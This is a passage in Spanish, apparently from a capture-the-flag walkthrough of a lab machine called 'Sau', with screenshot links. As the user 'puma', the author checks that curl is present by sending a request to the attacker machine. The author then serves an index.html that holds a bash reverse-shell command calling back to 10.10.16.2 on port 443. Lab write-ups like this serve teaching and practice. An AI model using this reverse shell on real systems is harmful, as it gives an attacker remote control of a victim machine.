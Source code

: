 ![](../assets/images/Sau/web21.png)

- identificamos al usuario puma, como esta ejecutando comandos lo que vamos intentar es enviarnos una shell:
1. Verificamos si curl esta instalado en la maquina victima enviandome una peticion por get a mi maquina de atacante.
![](../assets/images/Sau/web22.png)
2. Como vemos que esta instalado  creamos un archivo index.html con el comando de bahs para entablar una reverse Shell `bash -i >& /dev/tcp/10.10.16.2/443 0>&1`.